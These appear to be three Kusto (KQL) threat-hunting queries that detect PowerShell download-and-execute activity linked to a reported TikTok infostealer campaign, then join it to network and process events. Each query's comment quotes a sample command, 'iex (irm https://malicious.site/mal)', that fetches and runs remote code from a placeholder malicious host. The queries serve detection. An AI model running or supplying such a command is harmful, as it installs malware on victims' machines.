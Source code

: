 Find the payload delivery.  
```
DeviceEvents
| where ActionType=="PowerShellCommand"
| extend Command=parse_json(AdditionalFields).Command
| where (Command has_all ("iex","irm","https://") or  Command has_all ('Invoke-Expression','Invoke-RestMethod','https://')) //iex (irm https://malicious.site/mal)
```  

Find the network connection activity.  
```
DeviceEvents
| where ActionType=="PowerShellCommand"
| extend Command=parse_json(AdditionalFields).Command
| where (Command has_all ("iex","irm","https://") or  Command has_all ('Invoke-Expression','Invoke-RestMethod','https://')) //iex (irm https://malicious.site/mal)
| join (DeviceNetworkEvents) on InitiatingProcessFileName,InitiatingProcessId 
```  

Find the invoked processes  
```  
DeviceEvents
| where ActionType=="PowerShellCommand"
| extend Command=parse_json(AdditionalFields).Command
| where (Command has_all ("iex","irm","https://") or  Command has_all ('Invoke-Expression','Invoke-RestMethod','https://')) //iex (irm https://malicious.site/mal)
| join (DeviceProcessEvents) on InitiatingProcessFileName,InitiatingProcessId 
```

References:  
https://www.trendmicro.com/en_us/research/25/e/tiktok-videos-infostealers.html  

